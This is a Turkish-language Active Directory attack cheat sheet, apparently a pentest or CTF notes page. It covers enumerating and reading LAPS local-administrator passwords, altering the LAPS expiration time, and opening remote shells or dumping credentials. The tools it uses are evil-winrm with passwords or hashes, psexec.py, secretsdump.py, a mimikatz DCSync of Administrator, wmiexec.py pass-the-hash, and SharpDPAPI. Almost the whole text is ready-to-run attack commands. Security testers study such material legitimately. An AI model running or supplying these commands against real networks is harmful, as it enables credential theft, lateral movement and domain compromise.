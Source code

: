 #### LAPS GPO'sunun Uygulandığı Tüm Bilgisayarları Bulma
```powershell
Get-DomainOU -GPLink "<GUID_NAME>" -Properties distinguishedname
Get-DomainComputer -SearchBase "LDAP://" -Properties distinguishedname
```

#### LAPS Şifresine Erişimi Olan Kullanıcıları Listeleme (LAPS PowerShell Modülü Kullanılarak)
```powershell
Find-AdmPwdExtendedRights -Identity workstations | %{$_.ExtendedRightHolders}
```

#### LAPS Şifresini Alma (LAPS PowerShell Modülü Kullanılarak)
```powershell
Get-AdmPwdPassword -ComputerName | fl
```

#### LAPS Süresini Değiştirme
```powershell
Set-DomainObject -Identity <TARGET_COMPUTER> -Set @{‘ms-Mcs-AdmPwdExpirationTime’=‘<NEW_VALUE>’} -Verbose
```

### Şifrelerle Shell Açma

#### Port 5985 Açıkken WinRM ile Giriş
```bash
sudo evil-winrm -u USERNAME -p PASSWORD -i 10.10.10.10
```
veya
```bash
evil-winrm -u username -H 9658d1d1dcd9250115e2205d9f48400d -i 10.10.10.10
```
veya
```bash
psexec.py USERNAME@10.10.10.10
```
veya
```bash
sudo secretsdump.py USERNAME@10.10.10.10
```
veya
```bash
./mimikatz.exe "lsadump::dcsync /user:Administrator" "exit"
```
veya
```bash
evil-winrm -i 10.10.10.10 -u administrator -p aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
```
veya
```bash
wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 steins.local/administrator@10.10.10.10
```
veya
```bash
.\SharpDPAPI.exe machinecredentials
```
veya
```bash
psexec.py Administrator@10.10.10.10 -hashes LMHASH:NTHASH
```

